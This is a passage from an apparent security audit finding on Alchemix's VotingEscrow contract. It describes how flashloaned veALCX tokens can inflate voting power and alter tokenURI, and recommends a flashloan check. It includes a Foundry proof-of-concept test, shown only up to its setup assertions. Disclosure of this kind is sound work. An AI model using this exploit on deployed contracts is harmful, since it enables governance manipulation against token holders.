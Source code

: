 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L359-L363
```solidity
function tokenURI(uint256 _tokenId) external view override(IERC721Metadata, IVotingEscrow) returns (string memory) {
    require(idToOwner[_tokenId] != address(0), "Query for nonexistent token");
    LockedBalance memory _locked = locked[_tokenId];
    return _tokenURI(_tokenId, _balanceOfTokenAt(_tokenId, block.timestamp), _locked.end, _locked.amount);
}
```

Since, `tokenURI` function is also using same vulnerable `_balanceOfTokenAt` function, same attack we can perform to change the tokenURI for any `_tokenId`.
## Impact

Since users are able to inflate their voting power, which they can use to vote for a malicious governance proposal. Same attack we can also use to alter tokenURI.
## Recommendation

Flashloan protection check should be implemented in `_balanceOfTokenAt` function.
## References

- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L366-L369
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L372-L374
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1426-L1465
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L264-L277
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L359-L363

        
## Proof of concept
## Proof Of Concept

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/VotingEscrow.t.sol`
- Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testVoteInflationByTransferToken -vvv`

```solidity
// Check inflation of votes using flashloaning veALCX
function testVoteInflationByTransferToken() public {
    address user1 = address(0x101);
    address user2 = address(0x102);

    uint256 tokenId = createVeAlcx(user1, TOKEN_1, MAXTIME, false);
    hevm.startPrank(user1);
    assertEq(veALCX.ownerOf(tokenId), user1);
    console.log("balanceOfToken(tokenId)   :", veALCX.balanceOfToken(tokenId));
    // console.log("balanceOfTokenAt(tokenId) :", veALCX.balanceOfTokenAt(tokenId, block.timestamp));
    console.log("getVotes(user1)           :", veALCX.getVotes(user1));
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));

    assertEq(veALCX.balanceOfToken(tokenId), getMaxVotingPower(TOKEN_1, veALCX.lockEnd(tokenId)));
    assertEq(veALCX.balanceOfToken(tokenId), veALCX.balanceOfTokenAt(tokenId, block.timestamp));
    assertEq(veALCX.balanceOfToken(tokenId), veALCX.getVotes(user1));
    assertEq(veALCX.getVotes(user2), 0);
```